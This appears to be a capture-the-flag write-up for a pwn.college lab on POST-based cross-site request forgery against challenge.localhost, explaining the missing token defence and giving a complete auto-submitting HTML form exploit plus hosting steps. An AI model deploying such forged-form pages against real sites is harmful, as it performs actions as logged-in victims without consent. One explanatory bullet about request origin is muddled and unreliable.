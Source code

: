 ## 🧨 Challenge: POST-based CSRF Attack

### 📜 Description

The challenge builds on the previous level, which required crafting a GET-based CSRF exploit. This time, the goal is to perform a **CSRF attack using a POST request** against a vulnerable server (`challenge.localhost`). JavaScript **cannot send cross-origin requests** due to the Same-Origin Policy (SOP), but browsers **can still submit HTML forms cross-origin**, and cookies will be included automatically — which is the vulnerability we exploit here.

### 🎯 Goal

Trigger a POST request to the vulnerable endpoint (e.g., `/post` or `/publish`) with valid form data on behalf of an authenticated user, **without their interaction**.

---

## 🧪 Vulnerability Explanation

* The server **does not implement CSRF protection**, like anti-CSRF tokens.
* The POST route (e.g., `/post`, `/publish`, `/update`) **uses only session cookies** to authenticate the request.
* Since the victim is logged in, their browser will **include the session cookie** in a cross-origin form submission.
* Browsers **do not block form submissions** from foreign origins; they only prevent **reading** the response (SOP).
* We exploit this by building a form that submits automatically using JavaScript.

---

## ⚙️ Exploit Code (`index.html`)

```html
<!DOCTYPE html>
<html>
  <body>
    <form id="csrfForm" action="http://challenge.localhost/post" method="POST">
      <input type="hidden" name="content" value="CSRF Attack! 🐍 pwn.college{csrf_flag}">
    </form>

    <script>
      // Automatically submit the form on page load
      document.getElementById("csrfForm").submit();
    </script>
  </body>
</html>
```

> ☑️ This HTML file must be named `index.html` to load automatically when `http://hacker.localhost:1337/` is visited.

---

## 🧰 Exploitation Steps

1. **Host the exploit**:

   ```bash
   python3 -m http.server 1337
   ```

2. **Place `index.html`** in the same directory as the web server.

3. **Visit** `http://hacker.localhost:1337` **in the same browser** where you’re already logged in as a victim on `http://challenge.localhost`.

4. **Observe** the result (e.g., a new post was created, or a change was made).

---

## ✅ Why It Works

* `<form method="POST">` submissions **bypass SOP** restrictions.
* The victim’s browser **automatically attaches cookies** for `challenge.localhost`.
* JavaScript on the attacker’s page **can submit the form** — this is **allowed**, because the origin of the request is the form’s action URL, not the script’s.

---

## 🧠 Lessons Learned

* **Forms are dangerous** when not protected by CSRF tokens.
* CSRF can be triggered by auto-submitted forms — no user interaction needed.
* SOP does **not** block sending data — it blocks **reading** the response.
